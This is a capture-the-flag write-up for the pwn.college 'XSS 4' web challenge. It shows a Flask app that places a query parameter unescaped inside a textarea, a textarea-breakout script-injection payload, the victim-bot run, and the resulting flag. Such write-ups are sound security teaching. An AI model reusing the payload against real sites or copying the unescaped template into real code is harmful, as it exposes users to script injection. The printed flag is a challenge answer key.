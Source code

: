 # 🛡️ XSS 4 — Writeup

## 📁 Challenge Information

- **Category**: Web Exploitation
- **Challenge Name**: XSS 4
- **Platform**: pwn.college
- **Tags**: `XSS`, `Reflected`, `Textarea Injection`, `Script Injection`, `JavaScript`, `DOM`

---

## 🔍 Description

We are given a Flask web app that displays a message entered in a `<textarea>` tag through the `msg` query parameter. Our goal is to inject JavaScript into the rendered HTML page and trigger an alert box to capture the flag.

---

## 📜 Source Code

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/", methods=["GET"])
def challenge_get():
    return f"""
        <html><body>
        <h1>pwnmsg ephemeral message service</h1>
        The message:
        <form>
            <textarea name=msg>{flask.request.args.get("msg", "Type your message here!")}</textarea>
            <input type=submit value="Make URL!">
        </form>
        </body></html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

---

## 🧠 Vulnerability Analysis

The key vulnerability here lies in the way user input is directly embedded inside a `<textarea>` tag **without any sanitization or escaping**:

```html
<textarea name=msg>{user-controlled-input}</textarea>
```

This allows us to **break out** of the `</textarea>` context and inject our own HTML/JavaScript content.

---

## 🎯 Exploit

By closing the existing `<textarea>` tag and inserting a `<script>` block, we can execute arbitrary JavaScript code in the victim’s browser.

### ✅ Payload:

```html
</textarea><script>alert("PWNED")</script><textarea>
```

### 🔗 Full URL:

```
http://challenge.localhost/?msg=</textarea><script>alert("PWNED")</script><textarea>
```

---

## 🚀 Execution

We use the `/challenge/victim` command to simulate a visit by a vulnerable user or bot:

```bash
hacker@web-security~xss-4:~$ /challenge/victim 'http://challenge.localhost/?msg=</textarea><script>alert("PWNED")</script><textarea>'
```

This results in:

```text
Visiting http://challenge.localhost/?msg=</textarea><script>alert("PWNED")</script><textarea>
Alert triggered! Your reward:
pwn.college{Ysj7zmjBRnYiY7FcGZ1v35gxDuU.QX1kzMzwSM0IzMyEzW}
```

---

## 🏁 Flag

```
pwn.college{Ysj7zmjBRnYiY7FcGZ1v35gxDuU.QX1kzMzwSM0IzMyEzW}
```

---

